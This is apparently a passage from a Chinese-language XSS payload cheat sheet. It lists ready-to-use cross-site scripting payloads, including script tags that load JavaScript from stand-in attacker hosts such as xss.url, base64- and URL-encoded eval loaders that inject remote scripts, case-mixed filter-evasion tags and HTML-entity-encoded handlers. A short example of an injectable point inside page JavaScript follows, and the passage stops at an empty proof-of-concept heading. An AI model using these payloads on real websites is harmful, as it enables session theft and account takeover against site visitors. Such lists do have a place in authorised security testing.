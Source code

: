 ### XSS加载远程js payload

```html
<script src=http://url/x.js></script>

</tExtArEa>'"><sCRiPt sRC=http://xss.url/x.js></sCrIpT>

'"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnhzcyI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= autofocus>

<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='http://xss.url/x.js';>

</tEXtArEa>'"><img src=# id=xssyou style=display:none onerror=eval(unescape(/var%20b%3Ddocument.createElement%28%22script%22%29%3Bb.src%3D%22https%3A%2F%2Fxss.url%2Fx.js%22%2BMath.random%28%29%3B%28document.getElementsByTagName%28%22HEAD%22%29%5B0%5D%7C%7Cdocument.body%29.appendChild%28b%29%3B/.source));//>

'"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnhzcyI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= onerror=eval(atob(this.id))>
```

### hidden input下的XSS

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">
//hidden input 下的xss基本不能利用，这个一直没有很好的payload，能打的基本是self-xss，而且限定浏览器。
```

### HTML实体编码XSS payload


`<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>`

`<IMG SRC=1 ONERROR=&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;(1)>`

在线转换网站 -> [https://evilcos.me/lab/xssor/](https://evilcos.me/lab/xssor/)


### 输出点在js代码中的XSS

#### 例子1
```javascript
    <script type = "text/javascript">

        var obj = new Object();
        obj.name = "华仔";
        obj.age = 18; //可控点在18这个位置，假设参数age=18

        obj.fun = function (){
            alert("姓名：" + this.name + ",年龄：" + this.age);
        }

        //alert(obj.name);        
        obj.fun();               
        
    </script>
```
#### 例子1POC
